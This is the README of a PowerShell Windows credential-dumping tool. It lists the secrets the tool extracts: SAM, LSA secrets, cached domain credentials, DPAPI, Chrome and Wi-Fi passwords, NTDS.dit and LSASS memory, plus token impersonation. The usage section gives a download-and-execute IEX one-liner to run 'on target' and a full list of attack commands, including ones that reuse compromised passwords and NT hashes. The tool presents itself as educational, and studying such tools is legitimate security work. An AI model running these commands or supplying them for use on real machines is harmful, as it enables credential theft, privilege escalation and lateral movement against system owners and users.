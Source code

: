 # MindMap

[MindMap](<https://github.com/YRazafim/Get-WindowsSecrets/blob/main/Windows Secrets.pdf>) with pseudo-code for a high-level overview.

# Why

To understand how to dump Windows Secrets internally.<br/>
Powershell implementation of [Secretsdump](<https://github.com/SecureAuthCorp/impacket/blob/master/examples/secretsdump.py>) and [Pypykatz](<https://github.com/skelsec/pypykatz>).<br/>
The script work (or should work!) on a local Windows machine:
  * Powershell v2 to latest
  * Windows NT 6.0 to latest

It is not intended to bypass AVs/EDRs and you have to be administrator on the computer.<br/>
The code is commented to understand each process.

Currently It can:<br/>
   * Dump BootKey
   * Compute Hashed BootKey
   * Dump SAM
   * Dump LSA Secrets
      *	$MACHINE.ACC = Machine account password in clear text if computer is joined to a domain<br/>
      * DefaultPassword = Clear text password when autologon is configured for an account<br/>
      * NL$KM = Secret key in clear text for decrypting Cached Domain Credentials<br/>
      * DPAPI_SYSTEM = System User PreKey and System Machine PreKey in clear text for decrypting System User MasterKey files and System Machine MasterKey files (DPAPI)<br/>
      * \_SC\_&lt;ServiceName&gt; = Service account password in clear text<br/>
      * ASPNET_WP_PASSWORD = Password for .NET services in clear text<br/>
      * L$_SQSA_S-&lt;SID&gt; = Clear text answers for Windows Security Questions
   * Dump Cached Domain Credentials
   * Dump DPAPI Secrets<br/>
      * Wi-Fi passwords<br/>
      * Chrome cookies/passwords<br/>
      * Vault Credential Manager passwords (VPOL and VCRD files)
   * Dump VNC passwords (RealVNC, TightVNC, TigerVNC, UltraVNC)
   * Dump NTDS.dit (Shadow Copy and parsing as ESE format)
   * Dump LSASS (ProcOpen and DupHandle methods)
   * List Session Tokens and Impersonate (ImpersonateLoggedOnUser()/CreateProcessWithToken()/CreateProcessAsUser())

# How it works

Download the script on target and from Powershell:
```
IEX (New-Object System.Net.WebClient).DownloadString("https://raw.githubusercontent.com/YRazafim/Get-WindowsSecrets/main/Get-WindowsSecrets.ps1")
. <Path>\Get-WindowsSecrets.ps1;
Get-WindowsSecrets -SAM
Get-WindowsSecrets -LSA
Get-WindowsSecrets -CachedDomainCreds
Get-WindowsSecrets -VNC
Get-WindowsSecrets -NTDS
Get-WindowsSecrets -SessionTokens
Get-WindowsSecrets -ActivatePrivilege "SeShutdownPrivilege"
Get-WindowsSecrets -Impersonate -TokenProcID 1528 -ImpersonateMethod "ImpersonateLoggedOnUser"
Get-WindowsSecrets -Impersonate -TokenProcID 1528 -ImpersonateMethod "CreateProcessWithToken"
Get-WindowsSecrets -Impersonate -TokenProcID 1528 -ImpersonateMethod "CreateProcessAsUser"
Get-WindowsSecrets -Impersonate -TokenProcID 1528 -ImpersonateMethod "CreateProcessAsUser" -Command "whoami"
Get-WindowsSecrets -LSASS
Get-WindowsSecrets -DPAPI
Get-WindowsSecrets -DPAPI -Creds 'User1:Pwd1/User2@Domain:Pwd2' -NTHashes 'User1:HexNTHash1/User2@Domain:HexNTHash2'
Get-WindowsSecrets -DPAPI -Creds 'User1:Pwd1/User2@Domain:Pwd2' -NTHashes 'User1:HexNTHash1/User2@Domain:HexNTHash2' -SkipLSASS
```

Creds and NTHashes parameters helped for DPAPI only (If you compromised these secrets for a user).
